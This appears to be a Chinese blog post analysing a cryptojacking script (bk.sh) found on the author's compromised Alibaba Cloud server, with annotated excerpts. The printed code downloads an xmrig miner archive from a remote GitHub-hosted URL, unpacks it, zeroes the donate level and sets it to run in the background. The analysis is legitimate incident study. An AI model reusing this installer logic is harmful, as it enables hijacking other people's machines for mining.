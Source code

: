 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)


## bk.sh，推测是靶机脚本(if及json部分)

### 第一层 if

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [Shell中的exit 0 和 exit 1是做什么的?](https://www.pianshen.com/article/37962128580/)
* [博客园-shell中的type命令](https://www.cnblogs.com/chaoguo1234/p/5723531.html)
* [Linux /dev/null详解](https://www.shuzhiduo.com/A/6pdDP9ALdw/)


```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi

# 找不到curl命令定义，则丢入黑洞，跳出
if ! type curl >/dev/null; then
  echo "ERROR: This script requires \"curl\" utility to work correctly"
  exit 1
fi

# `sudo -n true 2`返回“一个密码请求”的定义信息
# if ! sudo -n true 2>/dev/null; then
#  if ! pidof systemd >/dev/null; then
#    echo "ERROR: This script requires systemd to work correctly"
#    exit 1
#  fi
# 看起来是调用（CPU几个核心数*7/10），如果为0，跳出。
CPU_THREADS=$(nproc)
EXP_MONERO_HASHRATE=$(( CPU_THREADS * 700 / 1000))
if [ -z $EXP_MONERO_HASHRATE ]; then
  echo "ERROR: Can't compute projected Monero CN hashrate"
  exit 1
fi
```

以上这echo所打印的报错信息，基本也说明主机不能正常使用，这对他们黑客而言，已经没有任何价值了。如果这些正常的话，则运行下载好的挖矿脚本，以及其专用的挖矿程序。然后又是层层的if环境检验。

### 第二层 if

参考信息源：

* [入门小站-linux之curl命令](https://zhuanlan.zhihu.com/p/519406107)
* [sed -i 命令入门详解](https://blog.csdn.net/h4241778/article/details/125263518)
* [XMR恶意挖矿案例简析](https://www.sohu.com/a/260504074_354899)
* [诱捕黑客的蜜罐系统](https://baijiahao.baidu.com/s?id=1706341262655959831)
* [linux应用之test命令详细解析](https://www.cnblogs.com/tankblog/p/6160808.html)
* [Shell脚本中$0、$?、$!、$$、$*、$#、$@等的意义以及linux命令执行返回值代表意义](https://blog.csdn.net/helloxiaozhe/article/details/80940066)


```
# curl -L --progress-bar 显示网页内容与进度条，存在异常则直接中断退出。
if ! curl -L --progress-bar "https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz" -o /tmp/xmrig.tar.gz; then
  echo "ERROR: Can't download https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz file to /tmp/xmrig.tar.gz"
  echo ""
  exit 1
fi

#  不能正常解压缩，退出删除文件
if ! tar xf /tmp/xmrig.tar.gz -C $HOME/c3pool --strip=1; then
    echo ""
	echo ""
  fi
  rm /tmp/xmrig.tar.gz

# 使用正则，看上去是为了替换掉原有的config.json的donate-level的数值。
  sed -i 's/"donate-level": *[^,]*,/"donate-level": 0,/' $HOME/c3pool/config.json
  $HOME/c3pool/xmrig --help >/dev/null
  # $? 最后命令的退出状态的返回值。0表示没有错误，其他任何值表明有错误。
  #   # 比较，不等于0，再检验下xmrig还是不是文件，是就打印换行，否则跳出。
  if (test $? -ne 0); then 
    if [ -f $HOME/c3pool/xmrig ]; then
      echo ""
	  echo ""
    else 
      echo ""
	  echo ""
    fi
    exit 1
  fi
fi
```

### 推测其意，做环境判断之后，用正则配置json

参考信息源：

* [百度知道-Linux下面这条命令能逐个解释一下吗:cat /etc/passwd |cut -f 1 -d ](https://zhidao.baidu.com/question/555970944.html)
* [博客园-Linux命令之cut](https://www.cnblogs.com/zhoujingyu/p/4948051.html)
* [csdn-linux中的sed参数,sed一些参数的用法](https://blog.csdn.net/weixin_39891317/article/details/116855981)
* [linux 抽取ip地址,Linux bash脚本提取IP地址](https://blog.csdn.net/weixin_36371924/article/details/116767805)
* [linux中awk命令详解(最全面秒懂）](https://www.cnblogs.com/zhengyan6/p/16290156.html)

指令逐条解释

* `hostname | cut -f1 -d"."` 将hostname的输出结果，传递给cut，以“.”切割分段行显示
* `sed -r 's/[^a-zA-Z0-9\-]+/_/g'` 删除所有特殊字符(除了数字以及大小写字母)。
* `ip route get 1` 返回路由条目，包括IP、网关、uid。
* `awk '{print $NF;exit}'` 对内容空格分段。

```
PASS=`hostname | cut -f1 -d"." | sed -r 's/[^a-zA-Z0-9\-]+/_/g'`
if [ "$PASS" == "localhost" ]; then
# 测试这条命令输出为0
  PASS=`ip route get 1 | awk '{print $NF;exit}'`
fi
# 推测是配置json账户信息
if [ -z $PASS ]; then
  PASS=na
fi
if [ ! -z $EMAIL ]; then
  PASS="$PASS:$EMAIL"
fi
```

将json拷贝一份，作为后台文件，再用sed配置成后台运行。

```
cp $HOME/c3pool/config.json $HOME/c3pool/config_background.json
sed -i 's/"background": *false,/"background": true,/' $HOME/c3pool/config_background.json
```

